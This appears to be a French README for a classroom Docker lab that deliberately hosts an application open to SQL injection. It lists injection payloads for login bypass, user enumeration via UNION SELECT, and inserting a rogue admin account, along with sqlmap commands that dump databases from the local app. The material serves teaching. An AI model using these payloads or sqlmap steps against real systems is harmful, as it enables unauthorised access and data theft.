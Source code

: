 ```
  ____   ___  _       ___        _           _   _             
 / ___| / _ \| |     |_ _|_ __  (_) ___  ___| |_(_) ___  _ __  
 \___ \| | | | |      | || '_ \ | |/ _ \/ __| __| |/ _ \| '_ \ 
  ___) | |_| | |___   | || | | || |  __/ (__| |_| | (_) | | | |
 |____/ \__\_\_____| |___|_| |_|/ |\___|\___|\__|_|\___/|_| |_|
                              |__/                             
```

<!-- TOC -->
* [Prérequis](#prérequis)
* [Lancement](#lancement)
<!-- TOC -->

![](readme_docs/287167c6.png)

Container Docker pour suivre le cours sur les Injections SQL

# Prérequis

* Docker
* Docker-compose
* Ports 8000, 8032, 8081 disponibles
* Docker-Desktop

# Lancement

Cloner le dépôt sur votre WSL

```bash
git clone git@github.com:LiliwoL/B3-Docker-Injection-SQL-Demonstration.git
```

Lancer le container

```bash
cd B3-Docker-Injection-SQL-Demonstration
bin/start # ou docker-compose up -d
```

Ce que vous devez voir dans Docker Desktop:
![](.README_images/16ca2b3c.png)


Accéder à la page web de l'application à l'adresse suivante:

http://127.0.0.1:8000

# Injections SQL possibles

## Authentification sans mot de passe

`' or 1=1 -- `

> Ne pas oublier l'espace à la fin
> https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens

## Enumération des utilisateurs

`' or 1=1 UNION SELECT * FROM users -- `

## Insertion d'un utilisateur dans la table users

`admin'; INSERT INTO users (password, username, id, email, admin) VALUES ('root', 'root', 7, 'hacker@fenelon.com', "true");`

# SQLMap

sqlmap -u http://127.0.0.1:8000 --forms --dbs

![](readme_docs/86043759.png)

sqlmap -u http://127.0.0.1:8000 --forms --tables -D db_name

![](readme_docs/8f6b0a65.png)

sqlmap -u http://127.0.0.1:8000 --forms --dump -D db_name -T table_name

![](readme_docs/3137fd85.png)

# Lancement

Clonez le dépôt

```bash
git clone 
```

Lancez le container

```bash
bin/start
```

Accédez au shell du container MySQL

```bash
bin/shell
```

![](readme_docs/d0107619.png)

Lancement du client mysql (saisissez le mot de passe **root**)

```bash
root@94416fbdf8e8:/# mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7
Server version: 10.7.3-MariaDB-1:10.7.3+maria~focal mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

